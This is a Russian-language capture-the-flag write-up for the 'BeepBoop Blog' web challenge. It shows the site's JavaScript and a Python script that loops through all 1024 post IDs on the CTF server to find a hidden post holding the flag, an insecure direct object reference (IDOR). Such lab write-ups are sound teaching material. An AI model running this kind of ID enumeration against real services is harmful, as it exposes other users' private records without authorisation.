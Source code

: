 # BeepBoop_Blog

## Задание

![Untitled](BeepBoop_Blog_Img/Untitled.png)

Взглянем на сам сайт.

![Untitled](BeepBoop_Blog_Img/Untitled1.png)

![Untitled](BeepBoop_Blog_Img/Untitled2.png)

Сайт представляет собой одностраничник с множеством записей от роботов, как указано в задании, флаг скорее всего в одной из них. Но такое количество блогов перебирать в ручную, кажется невозможным.

## Решение

Прежде всего возникает идея взглянуть на исходный сайт, там мы обнаружим скрипт, который переносит пользователя на страницу с блогом.

```jsx
function loadPosts() {
    fetch("/posts").then(data => {
        return data.json();
    }).then(json => {
        document.getElementById("contents").innerHTML = "";

        let out = "";
        for (let i = 0; i < json.posts.length; i++) {
            let post = json.posts[i].post;
            let preview = post.substring(0, 100) + "...";
            let post_url = json.posts[i]["post_url"].split("/");
            let post_id = post_url[post_url.length - 1];

            const postElement = document.createElement("div");
            postElement.classNames = "post";

            const headElement = document.createElement("h3");
            headElement.innerText = `Post from ${json.posts[i].user}`;
            postElement.appendChild(headElement);

            const textElement = document.createElement("p");
            textElement.innerText = preview;
            postElement.appendChild(textElement);

            const linkElement = document.createElement("a");
            linkElement.onclick = evt => { loadPost(post_id) };
            linkElement.href = "#";
            linkElement.innerText = "View All...";
            postElement.appendChild(linkElement);

            document.getElementById("contents").appendChild(postElement);
        }
    })
}

function loadPost(post_id) {
    document.getElementById("contents").innerHTML = "";

    fetch(`/post/${post_id}/`).then(data => {
        return data.json();
    }).then(json => {;

        const postElement = document.createElement("div");
        postElement.classNames = "post";

        const headElement = document.createElement("h3");
        headElement.innerText = `Post from ${json.user}`;
        postElement.appendChild(headElement);

        const textElement = document.createElement("p");
        textElement.innerText = json.post;
        postElement.appendChild(textElement);

        const linkElement = document.createElement("a");
        linkElement.onclick = evt => { loadPosts() };
        linkElement.href = "#";
        linkElement.innerText = "Go Back";
        postElement.appendChild(linkElement);

        document.getElementById("contents").appendChild(postElement);
    })
}

window.onload = evt => {
    loadPosts();
}
```

Можем заметить, что все блоги лежат в json фале по адресу /posts. Так же можно обнаружить, что можно достать каждый пост по его номеру., у все постов параметр hidden установлен на false, наталкивает на мысль, что нужный нам пост скрыт. Всего постов 1024.

Напишем скрипт, который пропарсит все посты.

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from urllib3 import disable_warnings
import re
s = requests.Session()
posts = []
regs = []
link = "https://beepboop.web.2023.sunshinectf.games/post/"
disable_warnings(InsecureRequestWarning)
for i in range(0, 1024):
    r = s.get(link+str(i)+"/", verify=False)
    posts.append(r.text)
for i in posts:
    if re.search("sun{", i) != None:
        print(i)
```

после того, как все посты будут собраны, остается только найти пост с флагом.

```jsx
{"hidden":true,"post":"sun{wh00ps_4ll_IDOR}","user":"Robot #000"}
```
